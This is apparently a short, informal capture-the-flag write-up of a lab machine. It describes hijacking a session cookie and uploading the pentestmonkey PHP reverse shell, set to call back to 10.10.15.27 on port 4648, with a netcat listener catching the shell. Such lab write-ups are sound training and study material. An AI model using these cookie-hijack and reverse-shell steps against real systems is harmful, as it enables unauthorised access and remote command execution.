 You have to past it in the cookie.
![](https://i.imgur.com/K2F071M.png)

Refresh the page..
And now you are matt, you can also take the admin cookie but someone else is playing with it,
so it's not working.

I have to kill them.

![](https://i.imgur.com/O1QDhTv.png)
Oh, sorry ppl, it's not working.
Hummm, it's working because I was logged in as admin, but I removed the cookie.
One of them is logged as admin, he have to finish the box first I think
Someone is using chisel, I have to try this tool too.
I think it's like mu tunnel ssh.
![](https://i.imgur.com/4RtRUMM.png)

https://github.com/jpillora/chisel
Ok I will try later.

# As admin.

Now I'm admin on the machine, I had to wait 2 hours.
![](https://i.imgur.com/8VpKwKC.png)
## Download the revershell
I'v downloaded a reversshell here:
https://github.com/pentestmonkey/php-reverse-shell

```sh
$ip = '10.10.15.27';  // CHANGE THIS
$port = 4648;       // CHANGE THIS
```
## Zip it
```sh
zip -r php-reverse-shell.zip php-reverse-shell.php
```

## netcat
```sh
nc -lvp 4648
```
## Upload it

![](https://i.imgur.com/hc0NHYf.png)

## I'm matt

![](https://i.imgur.com/IxwjjaN.png)

# pandora_backup

I can't be admin on the webpage, it's buggy.
I leave this CTF.








